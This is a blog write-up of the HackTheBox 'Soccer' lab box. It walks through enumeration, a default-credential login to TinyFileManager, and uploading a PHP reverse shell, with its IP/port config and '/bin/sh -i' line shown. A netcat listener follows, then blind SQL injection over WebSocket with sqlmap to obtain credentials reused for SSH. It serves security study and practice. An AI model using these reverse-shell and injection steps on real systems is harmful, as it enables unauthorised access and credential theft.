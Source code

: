 ```yaml
---
layout: post
title: "HackTheBox Write Up - Soccer"
date: 2023-05-03
category: labs
image: '/assets/images/HTB-Logo.png'
tags: [labs, educational, guide]
---
```


### HackTheBox Write Up — Soccer

#### A walkthrough of the ‘Soccer’ box from HackTheBox

![](/assets/images/1jnFpt4i0LUVaVrlqP1E4Gw.png)
#### Scanning & Enumeration

As usual, the first step is to start with an Nmap scan. This revealed ports 22 (SSH), 80 (HTTP), and 9091.

Next I navigated to the webpage, which didn’t have a lot of options available to investigate. Next up is directory busting.

#### **Directory Busting**

![](/assets/images/1N0jZonUbSbE5ypKpdAI5pA.png)

`ffuf -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u http://soccer.htb:80/FUZZ`

Since I’m currently studying for the PNPT from TCM Security and the training is fresh in my mind, I’ll be using FFuF for directory enumeration.

The only real result that came back was the subdomain: `http://soccer.htb/tiny` , which results in a login page that can potentially be brute forced.

#### Initial Access

Before spending time attempting to brute force, let’s first do some OSINT by doing a quick Google search on default credentials for TinyFileManager.

This pays off and saves us some time as the default admin username and password worked and we’re logged in.

![](/assets/images/1CvlPP484HahwYUCEHd80IA.png)

Digging through the ‘Tiny File Manager’ web portal, the first thing that stands out to me is the ‘Upload’ section. This is just asking to be abused and can potentially lead to a reverse shell.

\*Take notice of the permissions set for each file and folder. The ‘/tiny/uploads’ directory is the only folder we have permission to write to.

I decided to use [this](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) code for the reverse shell from pentestmonkey, which I’ve nicknamed catshell.php for this lab (don’t ask me why).

Be sure to adjust the IP and port before saving the file. Below is a snip it from the code showing where these changes are made.

```
set_time_limit (0);  
$VERSION = "1.0";  
$ip = '127.0.0.1';  // CHANGE THIS  
$port = 1234;       // CHANGE THIS  
$chunk_size = 1400;  
$write_a = null;  
$error_a = null;  
$shell = 'uname -a; w; id; /bin/sh -i';  
$daemon = 0;  
$debug = 0;
```

Next, I set up a listener using netcat:

```
nc -lvnp 4444
```

All we have to do is upload this file and then hit the ‘Direct Link’ button under the ‘Actions’ section. With this, we gain a shell.

The first thing to do is use the following command to get bash:

```
python3 -c "import pty;pty.spawn('/bin/bash')" 
```

Checking the user permissions next, we see our user www-data has low privileges.

![](/assets/images/1Oxn6mA14oA-l13zkoxcUiQ.png)

With this shell we can enumerate further. Referencing the previous findings on port 80/http, I list out the contents of the /etc/nginx/site-enabled directory using the following command:

```
ls /etc/nginx/site-enabled
```

This reveals a file called `soc-player.htb`. When opening this file using cat, it reveals the server\_name: `soc-player.soccer.htb`

I need this to reflect in the /etc/hosts file so I input it, replacing the previous soccer.htb entry.

Navigating to this newly found site we have more options to explore. We now have a few directory listings on the header menu: “Match”, “Login”, “Sign Up”.

I neglected to get a screenshot of this page. But if you can imagine a very simple webpage with some basic directory listings, a robot (or I suppose a prosthetic) soccer leg kicking a flaming soccer ball, and some lorem ipsum giving a brief history of the entire sport of soccer; then you’re up to speed.

Let’s go ahead and sign up. This presents us with one free ticket voucher and an input field where we can check the validity of our ticket ID. This may prove to be an interesting foothold to exploit.

#### Privilege Escalation

Next, I investigate this newly found subdomain further by inspecting the webpage which reveals that Websockets are in use here. Researching possible SQLi for Websockets, we have one that should work found [here](https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html) that actually automates this.

We’ll need to adjust the parameters for this script. Ensure the “`ws_server`” parameter has the correct URL and the “`data`” contains the “id” parameter as this is what we are using for authentication:

![](/assets/images/1xXN6XCi2hU6M2zAJPIKiwA.png)

Following the directions of the author of this script, I used the following sqlmap command. I just adjusted the tags at the end to narrow down the search a bit. This took a very long time, so keep that in mind if you’re following along.

![](/assets/images/15XQszEZOS4oql-8rlTp4ww.png)

After a long wait and a nice coffee break, SQLMap yielded Database credentials for soccer\_db.

![](/assets/images/1UhU4FA7po_4OcbA2bYQadQ.png)

Using these credentials to establish an SSH connection worked like a charm, so I just navigated to the root folder to obtain the ‘user.txt’ flag.

![](/assets/images/1-_iENcZpdkR5fCBdnlnO5w.png)
#### GAME OVER



By [darkyolks](https://darkyolks.com) originally published on May 3, 2023.

